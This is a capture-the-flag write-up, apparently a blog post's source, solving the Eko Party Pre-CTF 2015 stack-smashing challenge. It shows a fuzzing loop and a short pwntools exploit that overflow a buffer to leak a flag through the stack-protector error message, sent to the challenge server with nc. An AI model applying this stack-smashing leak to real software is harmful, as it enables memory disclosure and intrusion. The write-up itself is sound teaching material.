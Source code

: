 ```yaml
---
layout: post
title: "Eko Party Pre-CTF 2015 Smashing The Stack For Fun And Profit"
date: 2015-09-20 23:42:46 -0400
author: [superkojiman]
comments: true
categories: [ekoparty]
---
```


### Solved by superkojiman

Connect to the server and we get:

```
$ nc challs.ctf.site 20001
Interesting data loaded at 0x7fffffffe540
Your username?
```

This address never changes. If we run it in gdb we see that the contents of flag.txt is copied into that address. There's one call to read() that reads in 1024 bytes, and a stack canary is present. 

We can use a SSP leak to get the flag. First use pattern_create to determine at which point RIP is overwritten. In this case, it's at offset 152. So we can start fuzzing at offset 152. On my local machine the address is 0x7fffffffe0b0:

```
# for i in `seq 152 1024`; do echo "i: $i"; python -c "from pwn import *;print 'A' * ${i} + p64(0x7fffffffe0b0)" | ./xpl; done
.
.
.
i: 374
Interesting data loaded at 0x7fffffffe0b0
Your username? Segmentation fault (core dumped)
i: 375
Interesting data loaded at 0x7fffffffe0b0
Your username? Segmentation fault (core dumped)
i: 376
Interesting data loaded at 0x7fffffffe0b0
Your username? *** stack smashing detected ***: flag{w00t-w00t-ninja}
 terminated
Aborted (core dumped)
i: 377
Interesting data loaded at 0x7fffffffe0b0
Your username? Segmentation fault (core dumped)
.
.
.
```

At offset 376 we get our own flag. So let's try it on the server. Exploit:

```python
#!/usr/bin/env python

from pwn import *

buf = ""
buf += "A"*376
buf += p64(0x7fffffffe540)

f = open("in.txt", "w")
f.write(buf)
f.close()

We can pipe this file into nc to get the flag:

# cat in.txt | nc challs.ctf.site 20001
Interesting data loaded at 0x7fffffffe540
Your username? *** stack smashing detected ***: EKO{pwning_stack_protector}
 terminated
```

Flag is ***EKO{pwning_stack_protector}***
